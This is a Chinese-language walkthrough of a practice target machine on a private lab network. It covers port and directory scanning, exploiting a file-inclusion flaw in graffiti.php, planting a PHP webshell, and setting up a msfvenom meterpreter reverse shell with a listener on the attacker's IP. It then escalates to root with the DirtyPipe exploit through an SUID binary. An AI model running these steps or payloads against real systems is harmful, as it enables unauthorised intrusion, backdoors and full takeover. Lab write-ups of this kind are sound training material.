

很简单的靶机，只需要一个够好的扫描字典即可练习
信息搜集
惯例先nmap扫主机ip和端口
nmap 192.168.23.0/24
三个端口开放， ip是192.168.23.163
22是ssh先不看。80是http，看一下
没什么信息。看看81端口
81端口要登录，不知道用户名密码，放弃，还看80端口。
扫一下目录
dirb http://192.168.23.163/ -X .txt,.php
只有一个robots.txt，看看
没什么有用的信息。
换一个目录扫描工具，找个更大的字典再扫一遍
gobuster dir -u http://192.168.23.163/ -x .txt,.php -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
找到了graffiti.php和graffiti.txt，访问graffiti.php看看是什么
一个简单的输入信息发布挂上去的脚本。试了试没有XSS，换个思路，看一下html源码。
input标签提示有一个file参数，值为graffiti.txt，请求方式为POST，用burp抓个包看看
有的，猜测这里是个文件包含漏洞。用php伪协议看看graffiti.php源码能不能获取到。
获取到了源码
那就好办了。写个一句话，挂到一个新的php上去
然后send，用蚁剑连一下。
msfvenom写个反弹shell
msfvenom -p php/meterpreter/reverse_tcp
一般默认即可，ip就是你的攻击机ip，端口默认4444。把生成的反弹shell挂到backdoor.php上去
msfconsole准备监听
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.23.159
set LPORT 4444
run
访问靶机上挂了反弹shell的php，也就是http://192.168.23.163/backdoor.php
监听成功，写个交互，然后看一下内核版本
ls /boot

linux 5.10内核，找个PoC跑一下
searchsploit linux 5.10
# Linux Kernel 5.8 < 5.16.11 - Local Privilege Escalation (DirtyPipe) | linux/local/50808.c
searchsploit -m linux/local/50808.c
gcc 50808.c -o 50808 -static
编译好后在蚁剑那边传上去
然后赋一个可执行权限
chmod +x 50808
PoC需要一个具有 SUID 权限的文件才能提取。找一下有没有
find / -perm -u=s -type f 2>/dev/null
有的兄弟，有的
那就随便找一个作为参数
./50808 /usr/bin/su
成功提权